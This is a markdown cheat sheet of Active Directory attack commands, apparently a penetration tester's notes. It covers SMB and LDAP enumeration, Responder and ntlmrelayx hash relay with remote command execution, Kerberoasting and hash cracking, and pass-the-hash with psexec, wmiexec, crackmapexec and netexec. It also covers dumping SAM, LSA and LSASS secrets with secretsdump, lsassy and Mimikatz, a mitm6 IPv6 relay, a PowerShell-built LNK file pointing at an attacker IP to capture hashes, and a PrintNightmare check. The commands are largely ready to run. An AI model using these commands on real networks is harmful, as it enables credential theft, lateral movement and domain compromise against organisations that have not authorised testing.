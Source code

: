 
## Active Directory (AD) Exploitation

### #LDAP and #SMB Enumeration

- #LDAP:
    - `ldapsearch -x -h <target> -b "dc=example,dc=com"`
    - `nmap --script=ldap-search -p 389 <target>`
- #SMB:
    - `nmap --script=smb-enum-users,smb-os-discovery -p445 <target>`
- #Responder: `responder -I <interface> -dwv`
	- crack hash with #hashcat (see above)
- #ntlmrelayx SMB no sign:
	- Step 1: Identify Hosts Without #SMB Signing
		- `nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24`
		* may need `-Pn` to get it to work
	- Step 2: Run #Responder
		- `sudo mousepad /etc/responder/Responder.conf`
		* Turn off #SMB and #HTTP
	- Step 3: Run #Responder
		- `sudo responder -I tun0 -dwv`
	- Step 4: Set up your relay
		- `sudo ntlmrelayx.py -tf targets.txt -smb2support`
		* #responder forwards hash to #ntlmrelay and then #ntlmrelay forwards hash to target
	- Step 5: An Event Occurs...
		* cause an event by pointing to a fileshare on user account
	- Step 6: Win
		* Other Wins
			* `sudo ntlmrelayx.py -tf targets.txt -smb2support -i`
				* gives an interactive shell!
					* `nc 127.0.0.1 11000`
			* `sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`
				* can run commands!

### #Kerberoasting

- Step 1: #GetUserSPNs
	- `impacket-GetUserSPNs <DOMAIN/username:password> -dc-ip <ip of DC> -request`
- Step 2: Crack hash
	- `hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt`
- Enumerate Users: `rpcclient -U "" <target>` then `enumdomusers`
- Request Service Tickets: `GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER>:<PASSWORD>`
- Crack Hashes: `john --wordlist=rockyou.txt --format=krb5tgs hashes.txt`

### #Pass-the-Hash & #LateralMovement (can do these with passwords or hashes)

- #Psexec: `psexec.py <domain>/<user>@<target> -hashes <NTLM-hash>`
- #WMIExec: `wmiexec.py <domain>/<user>@<target> -hashes <NTLM-hash>`
- #Mimikatz:
	- `privilege :: debug`
	- `sekurlsa::logonPasswords
- #crackmapexec / #netexec : hash and password
	- #cme
		- `crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>` 		
		- `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth`
		- `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam`
		- `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --lsa`
		- `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares`
	- #netexec
		- `netexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`
		- `netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth`
		- `netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam`
		- `netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --lsa`
		- `netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares`
	- #SMB, #WinRM, etc. Run `crackmapexec -h` and `netexec -h` for all options
	- #secretsdump: hash and password
		- `secretsdump.py DOMAIN.local/user:'Password1'@10.X.X.X`
		- `secretsdump.py administrator:@10.X.X.X -hashes aad3bXXX:7facdcXXX`
		- Crack hashes, if #cPassword hash, decrypt with:
			- `gpp-decrypt <hash>`
	- Built-in modules 
		- `crackmapexec smb -L`
			- `gpp_password`
			- `impersonation`
			- `keepass_discover`
			- `lsassy` - ***#1 choice***
		- `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy`
		- `netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy`
	- `cmedb` for database of successful logins

### #IPv6 Attack with #ntlmrelay and #mitm6 

- `ntlmrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.DOMAIN.local -l lootme`
	- run this before mitm6 and ensure no errors.
- `sudo mitm6 -d marvel.local`
	* Any event (reboot/login) will allow us to take the event, and relay to DC.
- *Don't run more than 10 minutes, can cause network outages.*

### #LNK File Attack

- Step 1: generate file via PowerShell 
	- IP is attacker ip, RUN PowerShell AS ADMIN, Enter each line one at a time
```PowerShell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.95.130\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
- Step 2: rename file and put in file share
	- rename file from `test` to `@test` just so it shows first in order and hash can be returned back
	- Put it into file share
- Step 3: Start Responder
	- `sudo responder -I eth0 -dP`
	- make sure smb and http are enabled in responder
		- `cd /usr/share/responder`
		- `sudo nano Responder.conf`
		- Change SMB and HTTP to `ON`
- Step 4: Navigate to file share and load the LNK file
	- relies on user to go to file share, once the LNK file is visible on their file explorer in file share, we will see captured hashes
- Automated attack using #crackmapexec / #netexec :
	- `netexec smb <DOMAIN-IP> -d DOMAIN.local -u user -p Password1 -M slinky -o NAME=test SERVER=<IP>`

### #printer PrintNightmare

- check if target is vulnerabile using `rpcdump.py`​  
	- `rpcdump.py @192.168.95.132 | egrep 'MS-RPRN|MS-PAR`
	- To exploit, follow [steps](https://github.com/cube0x0/CVE-2021-1675) on cube0x0 RCE or calebstewart LPE. 
